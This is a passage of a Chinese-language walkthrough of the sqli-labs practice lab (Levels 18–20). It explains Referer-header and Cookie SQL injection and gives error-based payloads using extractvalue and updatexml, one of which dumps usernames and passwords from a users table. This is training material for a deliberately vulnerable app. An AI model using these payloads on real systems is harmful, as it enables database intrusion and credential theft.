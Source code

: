 ![89](https://img-blog.csdnimg.cn/475e36fc68354706a15e3812ce9a56d6.png#pic_center)
**爆库：**

![90](https://img-blog.csdnimg.cn/ab142e946858423b9ba87a8db4cd4ca7.png#pic_center)
后续步骤类似。

至此，第十八关通关！

## Less-19

当我们输入正确的账户、密码时我们的`referer`字段内容会显示在页面上：

![91](https://img-blog.csdnimg.cn/207a3f676e184b54ba1bddf928bdfd6f.png#pic_center)
**爆库：**

```sql
'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '
```

剩下的类似上述语句，自行构造即可。

至此，第十九关通关！

## Less-20
代码中使用`Cookie`传递参数，但是没有对Cookie中传递的参数进行过滤操作。导致SQL注入漏洞的产生。

`cookie注入`：直接登录时抓包是抓不到cookie的，源码中可以看到我们的cookie是从uname中获取，刷新后才会执行select。

**爆行数：**

![92](https://img-blog.csdnimg.cn/171a905f3c8e44e2a5691f5289067855.png#pic_center)

接下来构造语句自行爆破：
```sql
'and updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1)#
```

至此，第二十关通关！